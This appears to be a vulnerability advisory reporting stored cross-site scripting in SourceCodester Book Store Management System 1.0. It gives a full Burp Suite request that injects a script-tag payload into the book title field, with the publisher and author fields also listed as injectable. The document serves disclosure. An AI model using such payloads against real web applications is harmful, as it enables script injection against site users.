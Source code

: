 # Stored Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. This vulnerability affects code of the file /book.php. The manipulation of the argument book_title, publisher, writer leads to cross site scripting. The attack can be initiated remotely.

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/book/add

Proof of Concept: Go to /bsms_ci/index.php/book/add and using function “Add New Book” and insert payload at “Book Title", "Publisher" or "Author”.

Burpsuite Request:

```txt
POST /bsms_ci/index.php/book/add HTTP/1.1
Host: localhost
Content-Length: 1004
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylCtfxCb0KA0B0dj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/book
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=mhhvamokocno4687ie4ovjlfi1s4n6om
Connection: close

------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="book_title"

<script>alert(document.domain)</script>
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="year"

2022
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="price"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="category"

1
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="gambar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="publisher"

Publisher
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="writer"

Author
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="stock"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundarylCtfxCb0KA0B0dj6--
```

Image:

![image](images/UI.png)

![image](images/burpsuite_request.png)

![image](images/xss-html.png)

![image](images/xss.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
